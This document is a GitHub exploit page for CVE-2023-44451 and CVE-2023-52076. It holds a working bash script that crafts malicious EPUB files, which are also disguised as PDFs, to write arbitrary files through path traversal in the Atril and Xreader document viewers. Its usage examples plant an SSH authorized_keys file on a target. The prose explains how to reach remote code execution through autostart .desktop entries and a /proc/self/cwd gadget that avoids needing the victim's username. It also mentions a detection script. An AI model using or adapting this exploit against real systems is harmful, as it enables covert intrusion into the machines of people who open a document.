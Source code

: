 
##
#
https://github.com/febinrev/slippy-book-exploit
#
##

```
#!/bin/bash


printf "
╔═╗┬  ┬┌─┐┌─┐┬ ┬   ╔╗ ┌─┐┌─┐┬┌─
╚═╗│  │├─┘├─┘└┬┘───╠╩╗│ ││ │├┴┐
╚═╝┴─┘┴┴  ┴   ┴    ╚═╝└─┘└─┘┴ ┴
 EPUB Path traversal Arbitrary File Write for Linux desktop environments (MATE)
                  -by Febin

[+] Affected Software components: Atril (default document viewer of MATE DE), Xreader (Default Doc Viewer of Mint OS)

[+] Affected OS: Kali Linux, Parrot Security OS, Ubuntu-mate, Linux Mint OS, Xubuntu and other OS with MATE or Atril/Xreader as default doc reader.

Note: This script will overwrite the specified EPUB document and also creates a .pdf file with the same name

"
epub=$1
content=$2
write_path=$3



write_epub(){




file "$epub" | grep "EPUB document" 2>/dev/null 1>/dev/null

if [[  ("$?" == "0") && (-w $content ) ]]
then

tmp_path="XXYXXYXXYXXYXXY"$(echo $write_path|tr "/" "Y")


cp "$content" "./$tmp_path"

trav_tmp_path=$(echo "$write_path"|tr "/" "Y"| awk '{gsub("Y", "\\/")};1')

#echo $trav_tmp_path

zip -u "$epub" "$tmp_path" >/dev/null

sed -i s/"${tmp_path}"/"..\/..\/..\/..\/..\/${trav_tmp_path}"/g "$epub"


cp "$epub" "${epub%.*}.pdf"

rm -f "$tmp_path" 

echo "[+] Files $epub ${epub%.*}.pdf written successfully"
else
echo "[-] Error! Specified file not found or the EPUB file specified is not an EPUB document"
exit

fi


}

usage(){

echo "
  .$0 <EPUB document> <File to write on target> <Full path to write on target>
  
  Example:
  
  $0 sample2.epub POC.txt /tmp/POC.txt
  
  $0 ~/Documents/ebook.epub \$HOME/file.txt /poc/self/cwd/Desktop/pwned.txt
  
  $0 ~/Documents/ebook.epub \$HOME/.ssh/id_rsa.pub /poc/self/cwd/.ssh/authorized_keys

"
}


if [[ (-z $epub) || (-z $content) || (-z $write_path) ]]
then
echo "[-] Arguments Required."
usage
else
write_epub
fi
```

Slippy-book: EPUB File Parsing Directory Traversal Remote Code Execution
CVE-2023-44451 (Xreader), CVE-2023-52076(Atril)(Reserved):
RCE Vulnerability affected popular Linux Distros including Mint, Kali, Parrot, Manjaro etc. EPUB File Parsing Directory Traversal Remote Code Execution

A Critical Path traversal and Arbitrary file write vulnerability has been discovered in the default document viewer software of Linux's MATE/ and Linux Mint affecting popular operating systems such as Kali Linux, Parrot Security OS, Ubuntu-Mate, Linux Mint, Xubuntu and all the other Operating Systems that use MATE or Atril/Xreader as default doc viewer.

The vulnerability exists in Atril Document Viewer and Xreader Document Viewer which are the default document viewers of the MATE environment and Linux Mint respectively. Atril is the default document reader for Kali Linux, Ubuntu-Mate, Parrot Security OS, and Xubuntu, and Xreader is the default document reader for Linux Mint.

This vulnerability is capable of writing arbitrary files anywhere on the filesystem to which the user opening a crafted document has access, the only limitation is that this vulnerability cannot be exploited to overwrite existing files but that doesn't stop an attacker from achieving Remote Command Execution on the target system.

[+] Achieving Remote Command Execution:
This vulnerability can't be exploited to overwrite existing files, it can only create new files under any specified locations, but that doesn't stop us from achieving RCE. I tried out using the vulnerability to write a .desktop entry under $HOME/.config/autostart and then I logged out and logged back in, the malicious .desktop entry got triggered and I got Remote Command Execution. I also tried placing an authorized_keys file under .ssh/ directory and achieved RCE via SSH. Note: If a directory is not present it will create the directory automatically.

Who knows about the Ebook format? Hasn't everyone switched to PDF?

The answer is no, EPUB is still a popular and powerful document format, but many people prefer PDF. Most of them are familiar with PDFs. So, I was trying to maximize this vulnerability impact. Another Interesting thing I noticed was, when renaming the .epub document to something.pdf, the vulnerable Document Viewer (Atril/Xreader) tries to open the something.pdf file and reads it as an EPUB document because it is responsible for reading both EPUB and PDF, it also supports many other document formats as well. In other words, we can rename our crafted something.epub to something.pdf and then send it to the target to achieve RCE on the target.

So everything is good, we could create an exploit that'll craft an epub/pdf pair to write malicious .desktop entries under /home//.config/autostart/ directory. But there's a small problem, the target user's username is required for successful exploitation of this bug. What if we don't know the username? No Easy RCE? Could you guess Username? Needs to try random common usernames? Let's see what I got..

Upon further analysis, I found out that we can use the /proc/self/cwd to access the user's home directory if he downloads the crafted document and opens it somewhere inside his home directory such as the ~/Downloads/, ~/Documents/ directory. So we can exploit the path traversal bug to achieve RCE just by using the gadget ../../../../../proc/self/cwd/../.config/autostart/exploit.desktop.

I have created a fully working exploit for this vulnerability (exploit_rce.sh) and a script to write and include custom files for path traversal (exploit_file_write.sh).

NOTE: In MATE's Atril the vulnerability is not fixed, the devs are patching the vulnerability. So I added a detection script (detect.sh) to detect malicious EPUB documents and sanitize them before opening.

Demo: (Linux Mint)
Using the exploit, Create a Malicious Document that Executes the Calculator app
